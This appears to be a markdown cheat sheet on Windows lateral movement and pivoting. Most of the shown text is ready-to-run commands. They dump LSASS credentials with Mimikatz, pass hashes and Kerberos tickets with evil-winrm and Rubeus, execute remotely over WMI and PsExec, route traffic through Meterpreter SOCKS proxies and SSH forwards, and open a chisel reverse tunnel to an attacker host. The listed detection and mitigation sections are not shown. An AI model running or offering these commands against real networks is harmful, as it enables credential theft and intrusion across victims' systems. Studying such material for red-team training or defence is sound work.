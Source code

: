   
## 📚 Table of Contents

  

1. [Introduction](#introduction)

2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)

    - [Using Credential Dumping](#using-credential-dumping)

    - [Pass-the-Hash](#pass-the-hash)

    - [Pass-the-Ticket](#pass-the-ticket)

    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)

    - [WMI & WinRM Execution](#wmi--winrm-execution)

    - [PsExec & SMB](#psexec--smb)

3. [Pivoting Through Compromised Hosts](#pivoting-through-compromised-hosts)

    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)

    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)

    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)

4. [Detecting Lateral Movement](#detecting-lateral-movement)

5. [Mitigations & Best Practices](#mitigations--best-practices)

6. [Conclusion](#conclusion)

  ---

## 🛠 Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```powershell

mimikatz.exe

sekurlsa::logonpasswords

```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH

Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```powershell

mimikatz # kerberos::ptt ticket.kirbi

```
  
### WMI & WinRM Execution

```powershell

Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"

evil-winrm -i 10.10.10.10 -u user -p password

```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## 🔀 Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16

meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```
